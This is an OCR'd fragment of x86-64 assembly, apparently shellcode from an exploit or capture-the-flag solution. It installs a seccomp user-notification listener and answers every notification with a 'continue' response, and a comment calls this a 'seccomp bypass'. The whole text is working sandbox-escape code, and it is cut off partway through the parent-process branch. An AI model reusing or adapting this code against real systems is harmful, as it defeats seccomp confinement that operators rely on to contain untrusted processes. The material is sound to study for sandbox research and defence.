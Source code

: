 ```python
    MOV        RCX,RAX
    MOV        EDX,0x0
    MOV        ESI,0x3
    MOV        EDI,0x13d
    mov rdi, rsi
    mov rsi, rdx
    mov rdx, rcx
    mov eax, 317
    syscall

    mov qword ptr [RBP + -0xa8], 0xcafea00 /* notif_buffer */
    mov qword ptr [RBP + -0xb8], 0xcafeb00 /* response_buffer */

    //while(1)
    LAB_001017d3:
    MOV        RDI,qword ptr [RBP + -0xb8]
    xor rsi, rsi
    MOV        RDX,0x400
    call inline_memset

    // ioctl(listening_fd, SECCOMP_IOCTL_NOTIF_RECV, notif_buffer);
    MOV        RDX,qword ptr [RBP + -0xb8]
    MOV        EAX,dword ptr [RBP + -0xd0]
    MOV        ECX,0xc0502100
    MOV        RSI,RCX
    MOV        EDI,EAX
    MOV        EAX,16
    syscall

    //ioctl(listening_fd, SECCOMP_IOCTL_NOTIF_SEND, response_buffer);
    MOV        RAX,qword ptr [RBP + -0xb8]
    MOV        qword ptr [RBP + -0xa0],RAX
    MOV        RAX,qword ptr [RBP + -0xa8]
    MOV        qword ptr [RBP + -0x98],RAX
    MOV        RAX,qword ptr [RBP + -0xa0]
    MOV        RDX,qword ptr [RAX]
    MOV        RAX,qword ptr [RBP + -0x98]
    MOV        qword ptr [RAX],RDX
    MOV        RAX,qword ptr [RBP + -0x98]
    MOV        dword ptr [RAX + 0x10],0x0
    MOV        RAX,qword ptr [RBP + -0x98]
    MOV        dword ptr [RAX + 0x14],0x1
    MOV        RAX,qword ptr [RBP + -0x98]
    MOV        qword ptr [RAX + 0x8],0x0
    MOV        RDX,qword ptr [RBP + -0xa8]
    MOV        EAX,dword ptr [RBP + -0xd0]
    MOV        ECX,0xc0182101
    MOV        RSI,RCX
    MOV        EDI,EAX
    MOV        EAX,16
    syscall
    JMP        LAB_001017d3

    /**************** parent - target process *****************/
    LAB_001018b1:

    // close(listening_fd);
    MOV        EDI,EAX
    mov eax, 3
    syscall
    
    //dummy print to verify that the seccomp bypass works
    MOV        EDX,0x16
```